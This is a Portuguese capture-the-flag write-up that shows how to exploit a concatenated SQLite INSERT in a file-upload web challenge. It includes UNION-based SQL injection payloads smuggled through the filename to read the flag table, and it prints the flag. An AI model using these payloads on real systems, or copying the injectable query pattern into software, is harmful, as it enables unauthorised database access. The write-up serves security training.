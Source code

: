# Versão Final?
### _WEB_

Baixando os arquivos que foram disponibilizados temos acesso ao código fonte da aplicação. Analisando esse código fonte, encontramos um SQL Injection:
```
 with sqlite3.connect(DATABASE) as conn:
    conn.execute("INSERT INTO images (ip, name) VALUES ('" + ip + "', '" + filename + "');")
    conn.commit()
```

Como o ip não pode ser manipulado pois o mesmo é criptografado com md5, só nos resta editar o nome do arquivo. Para editar o nome do arquivo, precisamos construir um payload em que as verificações de nome do arquivo sejam válidas:
```
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS

def secure_filename(filename):
    filename = filename.replace('/', '')
    filename = filename.split('.')
    if len(filename) == 2:
        return filename[0]+'.'+filename[1]
    return False
```

A função ```allowed_file()``` apenas verifica se existe apenas 1 extensão e se essa extensão é permitida. Já a função ```secure_filename()``` retira / e . do nome do arquivo.

Então o seguinte nome do arquivo é válido: ```image') PAYLOAD -- -.jpg```. Por fim, temos o payload:
```image') UNION SELECT ip_md5,0x61616161 FROM images -- -```
![Imagem 1](./versao_final1.png)

Acessando ```/list```, além dos nomes de images temos também o valor "1633771873" cadastrado (0x616161 == 1633771873).
![Imagem 2](./versao_final2.png)

Portanto, para a flag:
```image') UNION SELECT ip_md5,flag FROM flag -- -```
![Imagem 3](./versao_final3.png)

Acessando o ```/list```:
![Imagem 4](./versao_final4.png)

FLAG:
```
DC5551{sql1?-r4nd;;}
```
